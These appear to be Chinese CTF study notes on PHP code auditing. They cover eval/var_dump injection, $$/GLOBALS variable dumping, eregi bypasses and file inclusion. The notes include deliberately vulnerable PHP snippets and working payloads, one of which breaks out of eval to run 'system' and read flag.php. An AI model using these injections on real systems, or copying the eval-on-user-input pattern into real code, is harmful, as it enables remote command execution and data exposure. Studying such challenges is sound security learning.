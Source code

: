 ## 代码审计

### `var_dump()/eval()`

```php
<?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?>
```

如此则通过构建`?hello=);system( 'cat flag.php'`绕过（拆分括号法+执行系统命令）

### `$$/GLOBALS`

```php
<?php  

error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```

其中`$$`是将变量的内容作为变量读取该变量中的内容

而`GLOBALS`可以查看PHP中的所有变量信息

直接构造`args=GLOBALS`即可（读取变量）

![image-20220130193822439](https://s2.loli.net/2022/01/30/DfWOv49x6crlU1K.png)

### `eregi([参数1],[参数2])`

其中参数1是一个正则表达式，参数二是目标字符串，返回布尔值，一般用来判断字符串是否符合要求（比如是否为8位密码等）

因此不要求前后两个相等，以此制定绕过规则

### 文件包含

文件包含，顾名思义就是在页面中动态的包含了其他的比如文件内容，网页内容，在实际开发中十分常用，可以帮助开发者减少很多无谓的工作，但是使用不当则会给黑客有机可乘

文件包含题目最明显的特征就是我们可以通过传参控制在页面上显示的内容，对于PHP具体来说最明显的特征就是存在`include/require(变量)`的代码块，且其中的变量是可控的

同时注意文件包含的另一个目的就是获取网站的源码内容，方便我们的代码审计
